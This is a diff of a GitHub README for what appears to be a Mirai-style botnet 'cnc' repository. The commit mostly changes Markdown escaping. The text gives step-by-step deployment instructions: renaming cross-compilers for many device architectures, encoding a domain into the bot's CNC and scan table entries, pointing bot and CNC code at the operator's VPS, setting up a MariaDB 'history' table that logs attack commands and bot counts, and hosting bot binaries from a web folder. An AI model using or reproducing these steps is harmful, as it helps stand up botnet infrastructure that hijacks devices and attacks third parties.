

Before and after one commit to Ally-Released/cnc, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 89% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -56,54 +96,87 @@ rm -rf *.tar.gz
 
-mv arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install arc
+rm -rf \*.tar.gz
+
+mv arc\_gnu\_2017.09\_prebuilt\_uclibc\_le\_arc700\_linux\_install arc
+
 mv cross-compiler-i586 i586
+
 mv cross-compiler-m68k m68k
+
 mv cross-compiler-mips mips
+
 mv cross-compiler-mipsel mipsel
+
 mv cross-compiler-powerpc powerpc
+
 mv cross-compiler-sh4 sh4
+
 mv cross-compiler-sparc sparc
+
 mv cross-compiler-armv4l armv4l
+
 mv cross-compiler-armv5l armv5l
+
 mv cross-compiler-armv6l armv6l
+
 mv cross-compiler-armv7l armv7l
 
+\# Domain (you need a domain on cloudflare )
 
-# Domain (you need a domain on cloudflare )
-``` put server ip on the cloudflare dns and make it non proxied ```
-``` use the enc.c file to encode your domain // ```
-``` compail the enc.c file : "gcc enc.c -o enc" ```
-``` use it like that example: my domain is https://example.com >> ./enc string example.com```
-``` Copy the string that enc generates and past it on /bot/table.c line: 20 and 21 ```
-***    add_entry(TABLE_CNC_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here  ***
-***    add_entry(TABLE_SCAN_DOMAIN, "\x70\x77\x71\x6F\x6D\x2A\x65\x76\x69\x7D\x04", 11); // your domain goes here ***
-``` change ip on /cnc/main.go line 19 from 0.0.0.0 into your vps ip```
-``` change ip on /bot/headers/includes.h line 27 from 0.0.0.0 into your vps ip```
+\`\`\` put server ip on the cloudflare dns and make it non proxied \`\`\`
 
+\`\`\` use the enc.c file to encode your domain // \`\`\`
 
-# We will setup the database, run these commands on your terminal:
+\`\`\` compail the enc.c file : "gcc enc.c -o enc" \`\`\`
+
+\`\`\` use it like that example: my domain is https://example.com >> ./enc string example.com\`\`\`
+
+\`\`\` Copy the string that enc generates and past it on /bot/table.c line: 20 and 21 \`\`\`
+
+\*\*\*    add\_entry(TABLE\_CNC\_DOMAIN, "\\x70\\x77\\x71\\x6F\\x6D\\x2A\\x65\\x76\\x69\\x7D\\x04", 11); // your domain goes here  \*\*\*
+
+\*\*\*    add\_entry(TABLE\_SCAN\_DOMAIN, "\\x70\\x77\\x71\\x6F\\x6D\\x2A\\x65\\x76\\x69\\x7D\\x04", 11); // your domain goes here \*\*\*
+
+\`\`\` change ip on /cnc/main.go line 19 from 0.0.0.0 into your vps ip\`\`\`
+
+\`\`\` change ip on /bot/headers/includes.h line 27 from 0.0.0.0 into your vps ip\`\`\`
+
+\# We will setup the database, run these commands on your terminal:
 
 yum install mariadb-server -y
+
 service mariadb restart
 
-# setup mariadb password
-mysql_secure_installation
+\# setup mariadb password
 
-# Now Login with your mysql pass by running this command:
+mysql\_secure\_installation
 
-mysql -u root -p**mypasswordhere**
+\# Now Login with your mysql pass by running this command:
 
-# Now we will add the database, copy and paste this on your terminal:
+mysql -u root -p\*\*mypasswordhere\*\*
+
+\# Now we will add the database, copy and paste this on your terminal:
 
 CREATE DATABASE vagner;
+
 use vagner;
-CREATE TABLE `history` (
-  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
-  `user_id` int(10) unsigned NOT NULL,
-  `time_sent` int(10) unsigned NOT NULL,
-  `duration` int(10) unsigned NOT NULL,
-  `command` text NOT NULL,
-  `max_bots` int(11) DEFAULT '-1',
-  PRIMARY KEY (`id`),
-  KEY `user_id` (`user_id`)
+
+CREATE TABLE \`history\` (
+
+  \`id\` int(10) unsigned NOT NULL AUTO\_INCREMENT,
+
+  \`user\_id\` int(10) unsigned NOT NULL,
+
+  \`time\_sent\` int(10) unsigned NOT NULL,
+
+  \`duration\` int(10) unsigned NOT NULL,
+
+  \`command\` text NOT NULL,
+
+  \`max\_bots\` int(11) DEFAULT '-1',
+
+  PRIMARY KEY (\`id\`),
+
+  KEY \`user\_id\` (\`user\_id\`)
+
 );
 
@@ -175,0 +287,3 @@ cmon bro you wanna create your own panel and dont know how to use putty?? alr ad
+\# bot folder
+
+\`/var/www/html/bins\`
````
Also changed, not shown: other parts of README.md (+123 -45 lines).
